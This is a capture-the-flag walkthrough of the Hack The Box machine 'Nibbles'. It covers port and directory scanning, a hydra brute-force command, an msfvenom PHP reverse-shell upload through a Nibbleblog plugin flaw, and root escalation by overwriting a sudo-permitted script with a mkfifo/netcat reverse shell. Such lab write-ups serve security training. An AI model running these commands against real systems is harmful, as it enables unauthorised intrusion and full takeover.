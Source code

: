 # Nibbles
![info-card](./info_card.png)

## Initial Enumeration

As usual, we start with a quick and easy nmap scan. I generally do this before diving into full port scans and NSE scripts so I can start to explore things as those more verbose scans run, but in this case those weren't needed.

```bash
nmap -sV 10.10.10.75
```

From that we can see we have a rather narrow attack surface:

![Nmap Results](./nmap.png)

If we're given ssh and an HTTP server as possible attack vectors, we can almost always assume the HTTP server is the target. Vulnerabilities in SSH aren't too common and generally won't be found on challenges ranked easy. That being said, let's dive into this HTTP server. Navigating to `http://10.10.10.75/` brings us to a page simply saying `Hello World!`, but after looking at the page source we see the following:

```html
<b>Hello world!</b>














<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Naturally we go to `http://10.10.10.75/nibbleblog` and find a web page ran on a product named `Nibbleblog`. Let's dig a little deeper into this site with a gobuster scan:

```bash
gobuster dir -u http://10.10.10.75/nibbleblog -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x php,md,html -t 50
```

![Gobuster Results](./gobuster.png)

From this we see two things of interest. `nibbleblog/README` is a great place to find versioning information and `nibbleblog/admin.php` will generally give us a chance to attack an admin login page. Starting with `nibbleblog/README` we see the following at the top of the file:

```
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01

Site: http://www.nibbleblog.com
Blog: http://blog.nibbleblog.com
Help & Support: http://forum.nibbleblog.com
Documentation: http://docs.nibbleblog.com
```

Next let's take a look at `nibbleblog/admin.php`. As expected, we find a login page. After a quick google didn't bring up a set of default credentials I'll use hydra to brute force the login with the username `admin`. To see what's really going on with this form, we start up our Burp Suite proxy and submit a test login attempt to see how the data is being sent. Shown below is the captured login attempt:

```http
POST /nibbleblog/admin.php HTTP/1.1
Host: 10.10.10.75
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.75/nibbleblog/admin.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Connection: close
Cookie: PHPSESSID=0cnrenp6euhttr8p0sbsut6pn5
Upgrade-Insecure-Requests: 1

username=USER&password=PASS
```

Using this information we can set up hydra to start a dictionary attack against this login. The syntax for this attack is as follows:

```bash
hydra -P /usr/share/wordlists/nmap.lst -l admin 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:Incorrect"
```

Unfortunately this leads to us being blacklisted by the application: 

![We've Been Blacklisted](./blacklisted.png)

After waiting a few minutes we're taken off the blacklist and can access the login page once again. This time we take a more simple approach and guess the password. The general rule of thumb here is to think like a lazy sysadmin. After a few attempts I ended up finding the credentials `admin:nibbles`. Just to satisfy my own curiosity, I verified that the password `nibbles` would in fact have been found by my hydra scan if we weren't blacklisted :).

![Checking the Wordlist](./nibbles.png)

## Execution

With access to the admin console as well as the version information, we are well on our way to our initial shell. Using searchsploit we can check for public exploits:

![Searchsploit Results](./searchsploit.png)

This [exploit](https://www.exploit-db.com/exploits/38489) tells us that an attacker can use the plugin `My image` to upload a php file and then execute it at `http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php`. Instead of using metasploit for this, I prefer to exploit it on my own. First we'll need a reverse shell to upload. To do this we'll use `msfvenom` to generate the payload:

```bash
echo '<?php' > evil.php && msfvenom -p php/reverse_php LHOST=$(tunip) LPORT=31337 -f raw >> evil.php && echo '?>' >> evil.php
```

{% hint %}
`tunip` is a handy bash alias I use to get my current IP address for Hack The Box. it is set to `ifconfig tun0 | sed -n '2 p' | awk '{print \$2}'` in my `~/.bash_aliases`
{% endhint %}
With this we can now select our file for upload in the plugin's configuration menu:

![My image Upload](./upload.png)

After clicking `Save Changes` you'll get some error messages, but this isn't a problem. Navigating to `http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php` triggers our reverse shell on port `31337`. With this we are able to get the user flag:

![Obtaining the User Flag](./user.png)

## Privilege Escalation

Going to the user `nibbler`'s home directory gives us a `personal.zip` file. Using `unzip` we can decompress this file and discover a file `personal/stuff/monitor.sh` which looks to be a custom monitoring script. Following my usual steps, I then run `sudo -l` to see if we have passwordless sudo access to anything:

![Passwordless Sudo Permissions](./sudo.png)

Well that certainly makes this process easier. This tells us that we can execute the file `/home/nibbler/personal/stuff/monitor.sh` with sudo permissions _without_ supplying a password. To exploit this I'm simply going to overwrite that file with a bash reverse shell back to my Kali host on a different port. To do this I'll run the following:

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4443 >/tmp/f' > /home/nibbler/personal/stuff/monitor.sh
chmod +x /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```

Running these commands in our user shell replaces the contents of `monitor.sh` with a reverse shell, then executes that reverse shell with root privileges. With this we are able to read the root flag:

![Root Flag](./root.png)
